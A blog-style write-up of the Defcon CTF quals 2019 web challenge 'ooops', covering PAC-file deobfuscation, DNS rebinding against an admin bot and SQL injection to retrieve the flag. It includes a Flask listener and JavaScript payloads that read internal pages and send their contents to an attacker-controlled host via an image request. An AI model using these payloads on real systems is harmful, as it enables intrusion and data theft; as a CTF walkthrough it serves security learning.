 ```yaml
---
layout: post
title: "Defcon ctf quals 2019 : ooops"
tags:
  - writeup
  - web
comments: true
---
```


# Defcon ctf quals 2019 : ooops

**Category:** Web
**Points:** 137
**Solves:** 34
**Description:**

> On our corporate network, the only overflow is the Order of the Overflow. <br/>
> Files: <a href="https://s3.us-east-2.amazonaws.com/oooverflow-challs/b48fb18a0837e8e6840d5101ff44bb9ee5ee1d22846580487ccce756b966f6b2/info.pac">info.pac</a>


## Write-up
### 1. javascript deobfuscate.
Change `eval` to `console.log`.

```js
FindProxyForURL = function(url, host) {
	/* The only 'overflow' that employees can access is the Order of the Overflow. Log in with OnlyOne:Overflow. HTTPS support is coming soon. */ 
	if (shExpMatch(host, 'oooverflow.io')) return 'DIRECT';
	return 'PROXY ooops.quals2019.oooverflow.io:8080';
}
```

now, we can access challenge page !

### 2. DNS Rebinding.
if you send a URL, the bot access to the URL. And you look at the referer of http header, you can see that it starts from the internal IP address. (ex: 10.x.x.x)

I tried DNS rebinding. I could not access the internal page using XHR because of SOP(same origin policy).

> 1. Send my server Address ( ex: `[A.hacker.com]` == my server address )
> 2. Check the bot's connection and referer header(Internal Address).
> 3. Send js Script to bot.
> 4. Change `[A.hacker.com]`'s DNS to Internal Address. ( ex: `[A.hacker.com]` == 10.x.x.x )

- server.py

```python
from flask import Flask, request
import threading
import time

app = Flask(__name__)

@app.route("/")
def hello():
    re = request.headers['Referer']
    print re
    return open('index.html').read()

app.run(host='0.0.0.0', port=5000)
```

- index.html

```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/1");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

### 3. SQL Injection.

Now We can see the internal page ! And It looks like a SQL injection !

- response html

```html
<!doctype html>
<html>
<head>
<title>OOOPS &mdash; Evaluate Requests</title>
<link href="/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous"></head>
<body>
<div class="container">
<div class="row">

<!-- Query: select rowid,* from requests where rowid=1; -->

<p>
Request #1 from b&#39;10.255.0.2&#39;.
 Automatically evaluated 
</p>

<a id="lnk" class="btn btn-secondary btn-block btn-lg" href="http://3ccdcab0.0a00061a.rbndr.us:5000">
Visit http://3ccdcab0.0a00061a.rbndr.us:5000
</a>

</div>
</div>
</body>
</html>
```

- index.html

```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/-1%20union%20select%201,2,3,group_concat(flag),5%20from%20flag");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

![ooops.png]({{ site.baseurl }}/images/ooops.png)

### FLAG
> OOO{C0rporateIns3curity}
